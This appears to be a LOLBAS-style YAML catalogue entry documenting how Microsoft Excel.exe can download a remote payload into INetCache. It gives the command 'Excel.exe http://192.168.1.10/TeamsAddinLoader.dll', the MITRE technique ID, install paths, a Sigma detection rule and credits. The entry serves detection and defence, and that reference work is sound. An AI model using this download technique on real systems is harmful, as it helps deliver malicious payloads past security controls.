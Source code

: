```yaml
---
Name: Excel.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```

